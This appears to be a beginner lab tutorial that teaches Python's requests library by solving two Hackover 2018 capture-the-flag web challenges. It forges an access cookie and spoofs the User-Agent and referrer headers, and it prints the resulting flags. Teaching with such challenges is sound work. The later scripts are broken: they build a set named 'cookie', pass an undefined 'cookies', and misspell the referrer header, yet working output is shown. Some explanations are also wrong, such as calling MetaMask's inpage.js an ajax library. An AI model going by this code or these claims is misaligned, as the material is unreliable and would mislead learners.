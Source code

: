 # Requests Lab

Need to `pip` install `requests` library if you do not already have it.

> $ pip install requests

Pip varies from system to system so please ask for help if you are having trouble.

## Todays Lesson
This lesson is inspired by the Hackover CTF challenges `ez web` and `i-love-heddha`. They are web challenges, but this lesson will teach you how well python integrates with the web, while also showing you how the internet works.

## ez web
This is a fairly basic one but it will show you alot.

Go to http://ez-web.ctf.hackover.de:8080 in Google Chrome (may need to turn on developer tools) and you will see a interesting web page that says under construction.

The first thing you should do is inspect the element. Then go over to the sources tab (how it is on Google Chrome) and see was provided by the server. It turns out there is only an `index.html` file (the main webpage) and a folder called `MetaMask` with `inpage.js`. `inpage.js` is a ajax library for javascript, it is not that important for the way we are solving the problem.

So the sources did not provide anything useful (yet) but so lets try looking for a `robots.txt`. `robots.txt` is a file included in most webpages that tells nice web crawlers (belonging to legal companies) where not to look. Lets see where we SHOULD NOT look.

Go to: http://ez-web.ctf.hackover.de:8080/robots.txt

It displays:
```
User-agent: * Disallow: /flag/
```

Lets see what is in [/flag/](http://ez-web.ctf.hackover.de:8080/flag/)

There is a link to `flag.txt` lets [click](http://ez-web.ctf.hackover.de:8080/flag/flag.txt) on it:
```
You do not have permission to enter this Area. A mail has been sent to our Admins.
You shall be arrested shortly.
```
Oh-no we got a permission denied. But how does the webpage know we can't have access to it?

Well it uses COOKIES which are parameters that the get passed from your computer to the webpage. Cookies are responsible for saving the our logins to various websites, and they are incredibly useful. Lets see if this webpage has any cookies?

To find the cookies got to the console on Google Chrome and enter:
```
> document.cookie
< "isAllowed=false"
```

The document object has to do with the inpage.js memtioned earlier.

Now that we know what the cookie is lets change the value of `isAllowed` to `true`.

To do this lets just use `=`:
```
> document.cookie = "isAllowed=true"
< "isAllowed=true"
```

Refresh it and you get the FLAG: `hackover18{W3llD0n3,K1d.Th4tSh0tw4s1InAM1ll10n}`

Great now lets do it in python using the requests library.

```python
import requests

url = "http://ez-web.ctf.hackover.de:8080/flag/flag.txt"
cookies = {"isAllowed": "true"} # cookies is a dictionary in python

r = requests.get(url, cookies=cookies)

print(r.text)
```
When runs it returns
```html
<!DOCTYPE html>
	<head>
		<title>Well done!</title>
	</head>
	<body>
		<p>hackover18{W3llD0n3,K1d.Th4tSh0tw4s1InAM1ll10n}</p>
	</body>
</html>
```

Which is the webpage.

Can you think of a way to parse the html? (Hint: use BeautifulSoup)

## i-love-heddha

This challenge is an extension of `ez web` because when we visit the url [207.154.226.40:8080](207.154.226.40:8080) it is pretty much the same thing.

Let's go to [207.154.226.40:8080/flag/flag.txt](207.154.226.40:8080/flag/flag.txt) like last time.

Lets check cookies:
```
> document.cookie
< "isAllowed=false"
```

Oh this is an easy fix:
```
> document.cookie = "isAllowed=true"
< "isAllowed=true"
```

But once on reloading it gives us this
```
You are using the wrong browser, 'Builder browser 1.0.1' is required
```

What the hell. We need a nonexistent browser to access it. So the options we have are to create a brand new browser name 'Builder browser 1.0.1' or we can spoof the browser with python.

When we visit a webpage, our browser sends that it is Google Chrome in the headers of the GET request (a request to pull down a webpage from a server). The webpage here is seeing that we are visiting from Google Chrome, and is like (no we are not going to show the webpage). This is really useful for websites that only depend on certain browser versions, but not for us because we need a nonexistent browser.

But with python we can fill out the browser section of the header in the GET request with 'Builder Browser 1.0.1'.

Lets do that:
```python
import requests

url = "http://207.154.226.40:8080/flag/flag.txt"
cookie = {'isAllowed', 'true'}

#headers
headers = requests.utils.default_headers() # get basic webpage headers

headers.update(
    {
        'User-Agent': 'Builder browser 1.0.1'
    }
)

r = requests.get(url, headers=headers, cookies=cookies)

print(r.text)
```

We get:
```html
<!DOCTYPE html>
	<head>
		<title>Almost</title>
	</head>
	<body>
		<p>You are refered from the wrong location hackover.18 would be the correct place to come from.</p>
	</body>
</html>
```

So close lets try changing the refers which is in the headers.
```python
import requests

url = "http://207.154.226.40:8080/flag/flag.txt"
cookie = {'isAllowed', 'true'}

#headers
headers = requests.utils.default_headers() # get basic webpage headers

headers.update(
    {
        'User-Agent': 'Builder browser 1.0.1',
        'refer': 'hackover.18'
    }
)

r = requests.get(url, headers=headers, cookies=cookies)

print(r.text)
```

We get `aGFja292ZXIxOHs0bmdyeVczYlMzcnYzclM0eXNOMH0=`, that does not look like a flag?



Well that because it is encoded, specifically base64. So lets use the base64 library
```python
import requests
import base64

url = "http://207.154.226.40:8080/flag/flag.txt"
cookie = {'isAllowed', 'true'}

#headers
headers = requests.utils.default_headers() # get basic webpage headers

headers.update(
    {
        'User-Agent': 'Builder browser 1.0.1',
        'refer': 'hackover.18'
    }
)

r = requests.get(url, headers=headers, cookies=cookies)

print(base64.b64decode(r.text).decode('utf-8'))
```
hackover18{4ngryW3bS3rv3rS4ysN0}

Good job

